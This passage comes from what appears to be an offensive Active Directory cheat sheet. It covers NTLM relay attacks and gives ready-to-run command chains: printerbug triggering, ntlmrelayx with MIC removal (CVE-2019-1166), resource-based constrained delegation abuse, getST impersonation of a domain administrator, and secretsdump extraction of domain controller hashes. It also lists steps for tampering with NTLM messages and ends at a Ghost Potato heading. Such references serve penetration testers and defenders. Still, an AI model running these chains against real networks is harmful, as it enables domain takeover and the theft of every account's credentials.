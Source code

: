     ```powershell
    TERM1> python printerbug.py testsegment.local/username@s2012exc.testsegment.local <attacker ip/hostname>
    TERM2> ntlmrelayx.py --remove-mic --escalate-user ntu -t ldap://s2016dc.testsegment.local -smb2support
    TERM1> secretsdump.py testsegment/ntu@s2016dc.testsegment.local -just-dc
    ```

* Using any AD account, connect over SMB to the victim server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant Resource Based Constrained Delegation privileges for the victim server to a computer account under the control of the attacker. The attacker can now authenticate as any user on the victim server.

    ```powershell
    # create a new machine account
    TERM1> ntlmrelayx.py -t ldaps://rlt-dc.relaytest.local --remove-mic --delegate-access -smb2support 
    TERM2> python printerbug.py relaytest.local/username@second-dc-server 10.0.2.6
    TERM1> getST.py -spn host/second-dc-server.local 'relaytest.local/MACHINE$:PASSWORD' -impersonate DOMAIN_ADMIN_USER_NAME

    # connect using the ticket
    export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
    secretsdump.py -k -no-pass second-dc-server.local -just-dc
    ```

## Drop the MIC 2 - CVE-2019-1166

> A tampering vulnerability exists in Microsoft Windows when a man-in-the-middle attacker is able to successfully bypass the NTLM MIC (Message Integrity Check) protection. An attacker who successfully exploited this vulnerability could gain the ability to downgrade NTLM security features. To exploit this vulnerability, the attacker would need to tamper with the NTLM exchange. The attacker could then modify flags of the NTLM packet without invalidating the signature.

* Unset the signing flags in the `NTLM_NEGOTIATE` message (`NTLMSSP_NEGOTIATE_ALWAYS_SIGN`, `NTLMSSP_NEGOTIATE_SIGN`)
* Inject a rogue msvAvFlag field in the `NTLM_CHALLENGE` message with a value of zeros
* Remove the MIC from the `NTLM_AUTHENTICATE` message
* Unset the following flags in the `NTLM_AUTHENTICATE` message: `NTLMSSP_NEGOTIATE_ALWAYS_SIGN`, `NTLMSSP_NEGOTIATE_SIGN`, `NEGOTIATE_KEY_EXCHANGE`, `NEGOTIATE_VERSION`.

```ps1
ntlmrelayx.py -t ldap://dc.domain.com --escalate-user 'youruser$' -smb2support --remove-mic --delegate-access
```

## Ghost Potato - CVE-2019-1384

Requirements:

* User must be a member of the local Administrators group
* User must be a member of the Backup Operators group
* Token must be elevated
